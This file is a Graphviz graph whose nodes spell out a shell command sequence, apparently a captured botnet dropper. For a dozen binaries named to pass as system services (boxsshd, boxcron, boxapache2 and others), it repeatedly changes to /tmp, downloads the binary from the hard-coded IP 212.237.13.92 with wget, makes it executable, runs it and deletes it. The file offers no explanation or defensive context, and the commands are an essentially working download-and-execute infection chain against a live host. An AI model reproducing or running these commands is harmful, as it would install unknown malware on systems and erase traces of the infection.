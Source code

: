digraph {
110 [label="cd /tmp "];
110 -> 110
2 [label="wget http://212.237.13.92/boxntpd "];
2 -> 4 [label=";,"];
4 [label="chmod +x boxntpd "];
4 -> 6 [label=";,"];
6 [label="./boxntpd "];
6 -> 8 [label=";,"];
8 [label="rm -rf boxntpd "];
8 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
12 [label="wget http://212.237.13.92/boxsshd "];
12 -> 14 [label=";,"];
14 [label="chmod +x boxsshd "];
14 -> 16 [label=";,"];
16 [label="./boxsshd "];
16 -> 18 [label=";,"];
18 [label="rm -rf boxsshd "];
18 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
22 [label="wget http://212.237.13.92/boxopenssh "];
22 -> 24 [label=";,"];
24 [label="chmod +x boxopenssh "];
24 -> 26 [label=";,"];
26 [label="./boxopenssh "];
26 -> 28 [label=";,"];
28 [label="rm -rf boxopenssh "];
28 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
32 [label="wget http://212.237.13.92/boxbash "];
32 -> 34 [label=";,"];
34 [label="chmod +x boxbash "];
34 -> 36 [label=";,"];
36 [label="./boxbash "];
36 -> 38 [label=";,"];
38 [label="rm -rf boxbash "];
38 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
42 [label="wget http://212.237.13.92/boxsepreme "];
42 -> 44 [label=";,"];
44 [label="chmod +x boxsepreme "];
44 -> 46 [label=";,"];
46 [label="./boxsepreme "];
46 -> 48 [label=";,"];
48 [label="rm -rf boxsepreme "];
48 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
52 [label="wget http://212.237.13.92/boxwget "];
52 -> 54 [label=";,"];
54 [label="chmod +x boxwget "];
54 -> 56 [label=";,"];
56 [label="./boxwget "];
56 -> 58 [label=";,"];
58 [label="rm -rf boxwget "];
58 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
62 [label="wget http://212.237.13.92/boxcron "];
62 -> 64 [label=";,"];
64 [label="chmod +x boxcron "];
64 -> 66 [label=";,"];
66 [label="./boxcron "];
66 -> 68 [label=";,"];
68 [label="rm -rf boxcron "];
68 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
72 [label="wget http://212.237.13.92/boxftp "];
72 -> 74 [label=";,"];
74 [label="chmod +x boxftp "];
74 -> 76 [label=";,"];
76 [label="./boxftp "];
76 -> 78 [label=";,"];
78 [label="rm -rf boxftp "];
78 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
82 [label="wget http://212.237.13.92/boxpftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x boxpftp "];
84 -> 86 [label=";,"];
86 [label="./boxpftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf boxpftp "];
88 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
92 [label="wget http://212.237.13.92/boxsh "];
92 -> 94 [label=";,"];
94 [label="chmod +x boxsh "];
94 -> 96 [label=";,"];
96 [label="./boxsh "];
96 -> 98 [label=";,"];
98 [label="rm -rf boxsh "];
98 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
102 [label="wget http://212.237.13.92/boxshit "];
102 -> 104 [label=";,"];
104 [label="chmod +x boxshit "];
104 -> 106 [label=";,"];
106 [label="./boxshit "];
106 -> 108 [label=";,"];
108 [label="rm -rf boxshit "];
108 -> 110 [label=";,"];
110 [label="cd /tmp "];
110 -> 110
112 [label="wget http://212.237.13.92/boxapache2 "];
112 -> 114 [label=";,"];
114 [label="chmod +x boxapache2 "];
114 -> 116 [label=";,"];
116 [label="./boxapache2 "];
116 -> 117 [label=";,"];
}
